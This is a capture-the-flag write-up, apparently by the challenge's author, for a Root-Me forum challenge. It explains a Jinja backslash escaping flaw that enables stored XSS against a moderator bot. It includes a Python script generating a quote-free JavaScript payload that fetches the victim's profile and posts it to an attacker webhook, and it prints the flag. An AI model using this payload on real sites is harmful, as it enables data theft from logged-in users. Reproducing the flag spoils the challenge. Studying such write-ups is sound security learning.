




**Note**: this write up is for a challenge I created for the Root-Me 20k CTF.

> That's it, the new Root-Me forum is finally online!
>   
> It's a new version, with a new design and new features. We finally replaced SPIP with new, modern technologies! We're obviously secured against security issues, with them... Right?

The source code for this challenge is available as an attachement, with a docker compose file to run it locally. It contains two containers, one for the website itself and one that runs a bot with a moderator role that will go and check profiles every few minutes.



The website itself looks like a forum. As a normal user, the only features available are registering an account, logging in, and setting your bio on your profile.

By trying to see the moderator point of view by running the challenge locally, or by simply reading the code, we can also see that the moderator has a dedicated page to see the list of profiles that changed their bio, and he has the capability to check their profile. The container running a bot is simply visiting the profiles that edited their bio every 2 minutes.

It's easy to guess that the goal of this challenge is to find an XSS to compromise the moderator user run by the bot, because of the presence of the bot, and also from the fact that the flag is located in the moderator profile, meaning the goal is to compromise it.

The first thing to try is to enter some HTML in the different fields and see what happens. We quickly see that it always seems properly sanitized, because Jinja's templates are filtering the user input for HTML content when rendering it. Tags, double quotes and single quotes are replaced with their HTML entities instead.

After some tests, if we pay attention to the dev console and we're using a Chromium based browser, we can see a JavaScript error if we enter a `\` precisely in the end of the bio field. For some reason, in Firefox, the JavaScript error isn't reported by the browser in the console, even if it's still present.



Once we look at the origin of this error, we can see that the `\` character is indeed not escaped by Jinja, and causes the ending quote of the JavaScript code to be escaped.



By escaping the ending quote in this line, we may have our XSS! Therefore, the trick here is to put a `\` in the first name of our user when we create it, so that its end quote is escaped. Then, in the bio that is put in the object as well, we can actually write some JavaScript, and it will be successfully part of the code. Great!

Except the Jinja filters still prevent us from using some characters, most notably the single and double quotes. So we must create our JavaScript payload according to this limitation, but there are tons of easy workarounds for not using them. In my case, I used `String.fromCharCode()` to create the string I want from its ASCII codes.

The straightforward solution to extract the flag now would be to use the classic method of redirecting the targetted moderator user to a webhook under our control with its cookies, so that we can log in as this user. However, in this case, the cookie is **HTTP only**, so we can't access it from JavaScript with `document.cookie`. \
However, using fetch to request resources from the website will transmit the cookie in the request and therefore we can still perform actions on behalf of the user on the website. So, we will just request the moderator profile page and send the text content of the response, in which is written the flag, to our webhook. Easy!

Because it's pretty painful to write such code by hand with the characters restrictions we have, I wrote a Python script to generate my JavaScript payload with the links I want. It looks like this:

```py
#!/usr/bin/env python3

import argparse

parser = argparse.ArgumentParser(description="Generate payload for the forum v2 challenge")
parser.add_argument("website_url", help="URL of the website")
parser.add_argument("webhook_url", help="URL of the webhook to send the flag to")
args = parser.parse_args()

profile_url = args.website_url + "/profile"
webhook_url = args.webhook_url

def to_charcodes(string):
    return "String.fromCharCode(" + ",".join([str(ord(c)) for c in string]) + ")"

payload = f", a: fetch({to_charcodes(profile_url)}).then(function (r) {{ r.text().then(function (t) {{ fetch({to_charcodes(webhook_url)}, {{ method: {to_charcodes('POST')}, credentials: {to_charcodes('include')}, mode: {to_charcodes('no-cors')}, body: t }}) }}) }}) }}//"

print("Go to the website and set an account to the following:")
print("- firstname = " + "\\")
print("- bio = " + payload)
print("After a few minutes, you will receive in your webhook a POST request with the HTML of the moderator profile page, containing the flag.")
```

We just have to run it, put the values it gives in the first name / bio of our user, and wait for the bot to visit our updated profile. After a few minutes, we successfully receive the HTML content of its profile with the flag in our webhook!



Flag: `RM{j1nj4_f1lt3r5_4r3_n0t_3n0ugh!!!}`